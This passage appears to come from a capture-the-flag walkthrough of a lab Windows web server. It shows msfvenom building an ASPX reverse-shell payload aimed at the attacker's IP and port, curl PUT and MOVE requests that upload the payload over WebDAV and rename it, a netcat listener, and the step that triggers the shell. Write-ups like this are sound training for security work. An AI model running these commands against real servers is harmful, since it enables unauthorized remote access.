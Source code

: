 Generate an ASPX reverse shell using msfvenom.

```text
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx
```

* **-p**: payload
* **-f**: format
* **LHOST**: attack machine’s \(kali\) IP address
* **LPORT**: the port you want to send the reverse shell to
* **-o**: where to save the payload

Rename the file to _shell.txt_ so that we can upload it on the server.

```text
mv shell.aspx shell.txt
```

Then upload the file on the web server and change the file extension to ASPX.

```text
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txtcurl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' 'http://10.10.10.15/shell.txt'
```

Next, set up a listener on your attack machine.

```text
nc -nlvp 1234
```

Execute the _shell.aspx_ file \(either through the browser or the _curl_ command\) to send a shell back to our attack machine.

![](../images/max/744/1*yycN8mBgy0owbvD8-abFXQ.png)

We get a shell! Unfortunately, we don’t have permission to view the _user.txt_ flag, so we need to escalate privileges.

![](../images/max/504/1*Lni1TFZq3fyeukHzXdpfVw.png)

